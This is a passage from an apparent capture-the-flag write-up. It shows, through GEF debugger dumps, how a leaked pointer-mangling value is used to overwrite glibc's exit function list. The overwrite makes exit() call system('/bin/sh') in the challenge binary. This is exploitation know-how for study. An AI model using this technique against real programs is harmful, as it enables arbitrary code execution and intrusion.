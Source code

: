 Here, we see we have prepared it, to leak the `0xa7928033268a9b5a` value. With this, we can overwrite the exit function list with our own:

```
gef➤  x/10g 0x7f9cd1a2e1a0
0x7f9cd1a2e1a0 <initial>: 0x0 0x0
0x7f9cd1a2e1b0 <initial+16>:  0x0 0xa79280526cca9b5a
0x7f9cd1a2e1c0 <initial+32>:  0x7f9cd198cf2d  0x0
0x7f9cd1a2e1d0 <initial+48>:  0xa 0x0
0x7f9cd1a2e1e0 <initial+64>:  0x0 0x0
gef➤  x/s 0x7f9cd198cf2d
0x7f9cd198cf2d: "/bin/sh"
```

Here we see that we have prepared this to execute `system("/bin/sh")`. We see that we actually hit `system` with `"/bin/sh"` as an argument (I ran the exploit again for this, so ASLR bases got changed):

```
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f5474c48801 <cancel_handler+225> ret    
   0x7f5474c48802               data16 cs nop WORD PTR [rax+rax*1+0x0]
   0x7f5474c4880d               nop DWORD PTR [rax]
 → 0x7f5474c48810 <system+0>    endbr64
   0x7f5474c48814 <system+4>    test   rdi, rdi
   0x7f5474c48817 <system+7>    je  0x7f5474c48820 <__libc_system+16>
   0x7f5474c48819 <system+9>    jmp 0x7f5474c483f0 <do_system>
   0x7f5474c4881e <system+14>   xchg   ax, ax
   0x7f5474c48820 <system+16>   sub rsp, 0x8
───────────────────────────────────────── source:../sysdeps/posi[...].c+202 ────
  197 return status;
  198  }
  199  
  200  int
  201  __libc_system (const char *line)
 →  202  {
  203 if (line == NULL)
  204   /* Check that we have a command processor available.  It might
  205       not be available after a chroot(), for example.  */
  206   return do_system ("exit 0") == 0;
  207  
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall-05", stopped 0x7f5474c48810 in __libc_system (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f5474c48810 → __libc_system(line=0x7f5474d8cf2d "/bin/sh")
[#1] 0x7f5474c3b3a6 → __run_exit_handlers(status=0x0, listp=0x7f5474e2c860 <__exit_funcs>, run_list_atexit=0x1, run_dtors=0x1)
[#2] 0x7f5474c3b4e0 → __GI_exit(status=<optimized out>)
[#3] 0x5576c8a1478b → secret()
[#4] 0x5576c8a142ed → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $rdi
0x7f5474d8cf2d: "/bin/sh"
gef➤  c
Continuing.
[Detaching after vfork from child process 9988]
```
